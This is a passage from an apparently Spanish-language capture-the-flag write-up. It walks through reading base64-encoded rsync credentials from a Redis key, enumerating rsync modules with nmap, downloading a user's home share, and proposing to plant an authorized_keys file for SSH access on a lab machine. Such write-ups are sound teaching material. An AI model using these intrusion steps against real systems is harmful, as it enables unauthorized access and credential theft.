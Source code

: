 Y listando el contenido de la clave **authlist** vemos lo que parece una cadena en base64.

```bash
10.10.229.132:6379> type authlist
list
10.10.229.132:6379> lrange authlist 0 0
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

La decodificamos.

```bash
❯ echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg...........
```

Nos da una pista para nuestro siguiente paso.

## 873 - rsync

Primeramente para enumerar recursos compartidos uso nmap:

```bash
❯ nmap -sV --script "rsync-list-modules" -p873 10.10.229.132
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 20:23 CEST
Nmap scan report for 10.10.229.132
Host is up (0.053s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules:
|_  files          	Necessary home interaction

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.73 seconds
```

Vemos un recurso `files`. Así que intento traérmelo a mi máquina con las credenciales de antes.

```bash
❯ rsync -av rsync://rsync-connect@10.10.229.132/files ./rsync
Password:
```

Tenemos otra flag en `rsync/sys-internal/user.txt`

```bash
❯ cd rsync/sys-internal

❯ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  user.txt
```

Podemos intentar subir un archivo `authorized_keys` a la ruta `sys-internal/.ssh` para poder ganar acceso al sistema con nuestra clave privada.
